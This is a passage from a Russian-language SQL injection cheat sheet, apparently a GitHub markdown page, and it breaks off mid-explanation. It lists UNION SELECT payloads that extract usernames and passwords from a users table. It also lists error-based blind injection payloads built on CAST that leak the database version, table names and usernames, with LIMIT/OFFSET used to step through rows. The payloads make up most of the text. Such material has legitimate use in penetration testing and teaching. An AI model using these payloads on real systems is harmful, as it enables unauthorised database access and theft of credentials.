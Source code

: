 #### 4. Этап вывод данных с таблиц

- **При 1 полезном столбце**
```
' UNION SELECT username || '~' || password FROM users--
```

- **При нескольких полезных столбцах**
```
' UNION SELECT NULL, NULL, username, password FROM users--
```

### Слепая атака

#### Через вывод ошибки

- **Логика вывода данных через ошибку:**
```
' AND CAST((SELECT 1) AS int)-- # 
```
Пояснение: `CAST()`функция позволяет преобразовывать один тип данных в другой, тем самым если мы видим вывод об ошибки sql то можем использовать данный метод.

- **1. Вывод версии базы данных**
```
' AND CAST((SELECT @@version) AS int)-- #
```
- Здесь `@@version` возвращает версию MySQL. Если преобразование в `int` невозможно, сервер вернет ошибку, в которой может быть указана версия базы данных.

- **2. Вывод таблиц в базе данных**
```
' AND CAST((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1) AS int)-- 
```
- Здесь `information_schema.tables` содержит информацию о всех таблицах в базе данных. `DATABASE()` возвращает имя текущей базы данных. `LIMIT 1` ограничивает вывод одной строкой, что полезно для пошагового извлечения данных.

- **3. Вывод данных из столбца в таблице**
```
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- 
```
- Здесь мы пытаемся преобразовать значение столбца `username` из таблицы `users` в тип `int`. Если преобразование невозможно, сервер вернет ошибку, в которой может быть указано значение `username`.

##### Что делает `LIMIT` и почему полезно его использовать
`LIMIT` используется для ограничения количества строк, возвращаемых запросом. Это особенно полезно в контексте SQL-инъекций, так как позволяет извлекать данные по частям, что может быть важно для обхода ограничений или для уменьшения количества данных, передаваемых в одном запросе.

Пример использования `LIMIT`:
```
' AND 1=CAST((SELECT username FROM users LIMIT 1 OFFSET 0) AS int)-- 
```
- Здесь `LIMIT 1` ограничивает вывод одной строкой, а `OFFSET 0` указывает на то, что нужно начать с первой строки. Для извлечения следующих строк можно увеличивать значение `OFFSET`:
